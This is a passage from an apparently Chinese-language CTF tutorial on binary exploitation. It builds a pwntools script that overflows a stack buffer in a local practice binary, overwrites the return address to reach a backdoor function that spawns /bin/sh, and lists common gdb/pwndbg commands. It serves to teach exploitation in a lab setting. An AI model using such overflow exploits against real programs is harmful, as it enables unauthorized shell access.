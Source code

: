这句代码的功能就是执行 `/bin/sh`，即获取 shell，我们只要能把程序执行流劫持到这里就能拿到 shell 了。

之后我们开始写利用脚本（Exploit）。创建 `exp.py` 文件，首先写上最基本的框架：

```python
from pwn import *

context.log_level='debug'
context(arch='amd64', os='linux')

ELFpath = './pwn'
p = process(ELFpath)
gdb.attach(p)

p.interactive()
```

我们要往 `buf` 写入的东西就是「16 个随便的字符」+「8 字节的 rbp_old」+「8字节的函数返回地址」，即 `b'a'*0x10 + p64(0) + p64(0x4011BD)`.

这样我们就能更改 `rbp_old` 的数值为 0，更改函数的返回地址到 `0x4011BD`.

然后我们使用 `send` 函数与程序进行交互。

```python
from pwn import *

context.log_level='debug'
context(arch='amd64', os='linux')

ELFpath = './pwn'
p = process(ELFpath)
gdb.attach(p)

p.send(b'a'*0x10 + p64(0) + p64(0x4011BD))# [!code highlight]

p.interactive()
```

之后在终端运行 `exp.py` 脚本。

![test - 本地利用](/assets/images/learn/pwn-run-exp-local_test.png)

可以看到我们已经成功运行了，而且通过 `gdb.attach()` 成功开启 gdb 进行调试。

下面是 gdb/pwndbg 常用的命令：

- `ni`: 执行到当前函数的下一条汇编指令
- `si`: 单步步入，和 `ni` 的区别就是 call<span data-desc>（调用）</span>函数的时候会一步步进入所 call 的函数，而不是像 `ni` 那样直接跳过
- `fin`: 执行至当前函数结束
- `q`: 退出gdb
- `vmmap`: 查看当前内存中的每个段的信息
- `tele 0x????`: 查看地址为 `0x????` 的内存中存储的内容

![backdoor - 本地利用](/assets/images/learn/pwn-run-exp-local_backdoor.png)

我们执行到 `main` 函数结束的地方，就可以看到我们成功劫持程序的执行流到 `backdoor` 函数。
